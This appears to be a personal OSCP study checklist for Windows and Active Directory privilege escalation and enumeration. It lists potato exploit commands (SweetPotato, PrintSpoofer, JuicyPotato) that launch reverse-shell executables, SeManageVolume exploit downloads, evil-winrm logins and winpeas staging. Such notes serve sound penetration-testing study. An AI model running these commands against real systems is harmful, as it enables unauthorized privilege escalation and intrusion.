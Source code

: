 Tags: [[OSCP]]

---
[HackTricks - AD Methodology](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
# Initial Access
- `whoami`, `whoami /all` 
- `whoami /priv`
	- SeImpersonatePrivilege
		- Run [SweetPotato](https://github.com/CCob/SweetPotato)
			- `./sweetpotato.exe -a "C:\Users\Public\revshell.exe"`
		- [FullPowers tool](https://github.com/itm4n/FullPowers)
		- [How to use potatoes](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) & - [Pre-compiled Potatoes](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/privileges-abuse/seimpersonate/potatoes (Pre-compiled))
		- [How to use Juicy/Rogue Potato & Printspoofer](https://juggernaut-sec.com/seimpersonateprivilege/)
		- [Printspoofer - GitHub](https://github.com/itm4n/PrintSpoofer) `.\PrintSpoofer64.exe -i -c powershell.exe` `whoami`
		- [Juicy Potato - Github](https://github.com/k4sth4/Juicy-Potato/tree/main) `.\juicypotato.exe -l  -p c:\Users\tony\revshell.exe -t * -c "{9E175B9C-F52A-11D8-B9A5-505054503030}"`
	- SEbackupPriv
		- https://exploit-notes.hdks.org/exploit/windows/privilege-escalation/windows-privesc-with-sebackupprivilege/
		- https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md
	- SeShutdownPrivilege
		- Can a startup process be modified? Then modify & reboot
		- Check service has `Auto`: `Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'httpd'}
		- Reboot: `shutdown /r /t 0`
	- [SeManageVolumePrivilege](https://github.com/xct/SeManageVolumeAbuse)
		- `wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe`
		- 
- `whoami /groups`,
	- `net localgroup` or `Get-LocalGroup` (Existing groups)
	- `Get-LocalGroupMember groupname` (Inspect)
- `systeminfo` (wiki build number)
	- Windows kernel exploits

More Initial Access
- Lockout policy: `net accounts`
- `net user` or `Get-LocalUser`
	- Look for *Remote Desktop Users* (use RDP) and *Remote Management Users* (use WinRM)
	- `net user jeffadmin /domain` (look for Domain Admins) (look for prefix/suffix accounts)
		- Login: `evil-winrm -i 192.168.xx.xxx -u user -p "password\$\!"` 
		- Escape special characters: `"password$!"` = `"password\$\!"`
- `net group /domain` (look for custom groups)
	- `net group "Sale Department" /domain`
- `winpeas`: `cp ~/Tools/Windows/winpeasx64.exe .` & `python3 -m http.server 80`
- `sc query | findstr /i servicetofind` & `sc qc servicename` 
	- Look for "Local System" and "*Log on as a batch job*" 
		- Schedule a task to execute a program
- `runas /user:backupadmin cmd` (Prompts for password)
